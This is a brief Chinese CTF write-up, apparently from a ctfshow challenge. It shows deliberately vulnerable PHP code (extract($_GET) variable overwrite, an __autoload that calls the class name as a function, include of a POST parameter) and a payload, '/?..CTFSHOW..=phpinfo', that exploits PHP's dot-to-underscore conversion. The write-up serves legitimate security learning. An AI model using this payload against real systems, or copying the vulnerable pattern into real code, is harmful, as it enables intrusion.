 ```
    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```

过滤了log，不能日志包含绕过了

> ```
> 这个题一点点小坑__autoload()函数不是类里面的
> __autoload — 尝试加载未定义的类
> 最后构造?..CTFSHOW..=phpinfo就可以看到phpinfo信息啦
> 原因是..CTFSHOW..解析变量成__CTFSHOW__然后进行了变量覆盖，因为CTFSHOW是类就会使用
> __autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo
> 接下来就去getshell啦
> ```

**payload**

```
/?..CTFSHOW..=phpinfo
```

php变量不能含有点空格，遇到这些会自动转化为下划线





------

总算是写完啦，不过这永远不是终点...